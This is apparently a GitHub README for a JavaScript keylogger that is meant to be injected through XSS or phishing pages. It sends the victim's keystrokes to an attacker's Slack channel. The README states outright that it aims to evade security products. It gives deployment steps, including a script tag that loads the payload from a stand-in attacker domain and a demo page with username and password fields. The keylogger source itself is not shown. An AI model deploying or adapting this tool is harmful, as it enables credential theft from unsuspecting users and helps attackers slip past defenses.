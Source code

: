# JS_KeyLogger_to_Slack
To be used with XSS or Phishing to Get Real-Time Keyboard Input Without Waiting for or Controlling Form Submission!

# Description
I wanted to improve upon my XSS API by adding support for capturing all keystrokes by the end user and sending them to a Slack channel for real time monitoring.  This allows for a quicker response to phishing attacks and more information than what's provided by POSTing an HTML form.  It's also more simple that BeEF so it hopefully won't get picked up by any security products!  Because we don't want to flood the Slack Channel or API by submitting each character at a time, we wait until the "Enter/Return" key is pressed or at Mouse click.  I figure this is most likely after a user is finished entering data into an input field somewhere on the page.

# Instructions

Simply host the Keylogger client-side JavaScript (kl.js) on a webserver that's publicly accessible, or embed it directly within your HTML.  If hosting it, simply call it like you would any JS with `<script src="https://YOUR_DOMAIN_HERE/kl.js"></script>`.

Host the Keylogger server-side PHP API (kl.php) on your web server and be sure to edit the variables to point to your Slack Channel via a Webhook.

# Demo

Test it out with something as simple as this : 

```
<HTML>
<BODY>
<SCRIPT SRC="https://YOUR_DOMAIN_HERE/kl.js">
</SCRIPT>
<CENTER>
<H2>JS Phishing/XSS Keylogger to Slack!</H2>
<B>Note: </B>Try typing anywhere and then click the mouse or hit Enter/Return on your keyboard
<BR><BR>
<TABLE>
<TR><TH>Username</TH><TH>Pass</TH></TR>
<TR><TD><INPUT TYPE="text" VALUE="" NAME="User"></TD><TD><INPUT TYPE="password" VALUE="" NAME="Pass"></TD></TR>
</TABLE>
<BUTTON TYPE="button">SUBMIT</BUTTON>
</CENTER>
</BODY>
</HTML>
```

<p align="center"><img align="center" width="600" alt="Client Example" src="https://s22.postimg.cc/txux5hial/Capture.png"></p>

<p align="center"><img align="center" width="600" alt="Watching in Slack" src="https://s22.postimg.cc/q1hl9i50t/Capture2.png"></p>
